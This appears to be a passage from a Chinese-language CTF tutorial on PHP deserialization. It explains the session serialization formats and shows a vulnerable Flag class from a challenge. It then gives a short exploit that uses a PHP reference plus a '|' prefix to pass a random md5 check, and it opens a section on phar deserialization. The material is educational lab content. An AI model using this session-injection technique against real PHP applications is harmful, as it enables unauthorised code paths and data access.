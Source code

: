 ```
？ben=dazhuang
```

形成

```php
benben|s:8:"dazhuang";
```

php:键名+竖线+经过serialize( )函数序列化处理的值

#### 2.PHP session 反序列化漏洞

当网站序列化并存储Session，与反序列化并读取Session的方式不同，就可能导致session反序列化漏洞的产生。

```php
 <?php
highlight_file(__FILE__);
/*hint.php*/
session_start();
class Flag{
    public $name;
    public $her;
    function __wakeup(){
        $this->her=md5(rand(1, 10000));
        if ($this->name===$this->her){
            include('flag.php');
            echo $flag;
        }
    }
}
?> 
```

```php
class Flag{
    public $name;
    public $her;
}
$a=new Flag();
$a->name=&$a->her;
echo serialize($a);
```

增加一个|即可

## 9.phar反序列化

#### 1.什么是phar

JAR时开发Java程序一个应用，包括所有可执行、可访问的文件，都打包进了一个JAR文件里，使得部署过程十分简单。

PHAR (“Php ARchive”)是PHP里类似于JAR的一种打包文件。

对于PHP5.3或者更高版本，phar后缀文件是默认开启支持的，可以直接使用它。
